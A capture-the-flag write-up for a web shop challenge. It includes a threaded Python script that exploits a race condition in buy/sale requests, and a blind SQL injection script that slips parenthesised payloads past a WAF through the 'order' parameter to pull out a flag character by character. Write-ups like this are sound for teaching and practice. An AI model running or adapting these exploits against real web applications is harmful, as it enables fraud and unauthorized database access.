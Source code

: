 In this web application, users can register, login, buy and sale goods.
Every user have 4000 money at init, but ``!HINT!`` need 8000, after try some times, we can know this site have race condition vulnerability. We can get many money with following script.

```python
import requests
import threading


url = "http://202.120.7.197/app.php"

def buy1():
    s = requests.Session()
    params = {"action": "login"}
    data = {
        "username": "vvv",
        "pwd": "vvv"
    }

    r = s.post(url, params=params, data=data)
    params = {
        "action": "sale",
        "id": "1"
    }

    r = s.get(url, params=params)
    print r.content


threads = []

for i in range(4):
    t1 = threading.Thread(target=buy1, args=())
    threads.append(t1)


if __name__ == '__main__':
    for t in threads:
        t.setDaemon(True)
        t.start()

    t.join()
```

After run this script, we will buy many goods, but only cost 1 time, so after we sale those goods, we can get hint: ``OK! Now I will give some hint: you can get flag by use select flag from ce63e444b0d049e9c899c9a0336b3c59``.

Try with search condition, we can know there has a SQLi vulnerability, but there is a WAF which reject ``/[^a-zA-Z0-9,()&]|\(\)|\s/`` and many keywords.

The final exploit is here

```
import requests
import hashlib

def md5(s):
    return hashlib.md5(str(s)).hexdigest()

url = "http://202.120.7.197/app.php"

s = requests.Session()

params = {"action": "login"}

data = {
    "username": "vvv",
    "pwd": "vvv"
}

r = s.post(url, params=params, data=data)

params = {
    "action" : "search",
    "keyword" : "i",
}

mid = 256
pos = 1
guess = 0
content = ''

while pos < 32:

    mid /= 2

    params["order"] = "if(((ascii(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1))&%d)),name,price)" % (pos, mid)
    if mid == 0:
        mid = 256
        pos += 1
        content += chr(guess)
        print 'flag: ', content
        guess = 0
    else:
        r = s.get(url, params=params)
        if r.status_code != 200:
            mid *= 2
            continue
        guess <<= 1
        guess += md5(r.content) != "38477ac7411a03638d60adb6e8b46665"

```